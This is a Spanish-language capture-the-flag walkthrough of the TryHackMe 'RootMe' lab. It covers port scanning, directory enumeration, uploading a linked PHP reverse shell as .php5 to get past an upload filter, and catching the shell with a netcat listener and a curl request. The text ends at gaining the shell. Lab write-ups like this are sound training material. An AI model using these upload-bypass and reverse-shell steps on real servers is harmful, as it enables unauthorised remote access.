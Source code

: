 ## Escalamiento de privilegios rootme, dificultad fácil en tryhackme

Después de deployear la máquina vulnerable a escalamiento de privilegios: 

# Reconocimiento: 

- Escanear los puertos y servicios corriendo en la máquina: 
Se puede utilizar el siguiente cheatsheet: https://www.stationx.net/nmap-cheat-sheet/

Corremos el comando nmap $IP -sV -T5 -n para donde sV nos trae la información de los servicios corriendo en cierto puerto, T5 para acelerar el escaneo al máximo y -n para evitar la resolución DNS y así hacer aún más rápido el escaneo.

<img width="676" alt="image" src="https://user-images.githubusercontent.com/44788583/201807952-c96f008a-6185-4ca9-b727-b3e6a48cb916.png">

Vemos 2 puertos abiertos y en uno de ellos vemos apache 2.4.29 corriendo en el puerto 80 y SSH corriendo en el puerto 22


Para enumeración de directorios, utilizamos una herramienta llamada gobuster, utilizando el siguiente comando, donde se pasa un wordlist con paths comunes: 
gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt

<img width="885" alt="image" src="https://user-images.githubusercontent.com/44788583/201809123-0255d2a3-0319-477c-bfc3-90d5f69a11ef.png">

Un path que llama la atención es el de /panel


accedemos a ese path por medio de $IP/panel

<img width="702" alt="image" src="https://user-images.githubusercontent.com/44788583/202015350-cb0054ad-010c-4fa6-9043-3dd28d77fb21.png">


usar https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php para tener un código de shell de reversa en php

<img width="704" alt="image" src="https://user-images.githubusercontent.com/44788583/202014774-992a3686-6df9-44a8-9033-abc58188e437.png">

crear un archivo para poder utilizarlo (puede ser con nano) y se sube a la página como extensión .php5

<img width="519" alt="image" src="https://user-images.githubusercontent.com/44788583/202015553-a623122a-afeb-4c0a-9825-d9ca52d9ece4.png">
 
para verificar que se subió, ir a: $IP/uploads

<img width="524" alt="image" src="https://user-images.githubusercontent.com/44788583/202016289-0aeebbf6-f2f4-4e85-937e-d0f609f72a9f.png">

Ahora para comunicarse, debemos poner a la escucha un puerto por medio de netcat y a su vez hacer una llamada al archivo recién subido, cada uno en una terminal diferente: 

terminal 1: 
nc -nlvp 9999 (puerto especificado en el .php5)

terminal 2: 
curl http://$IP/uploads_reverse_shell.php5
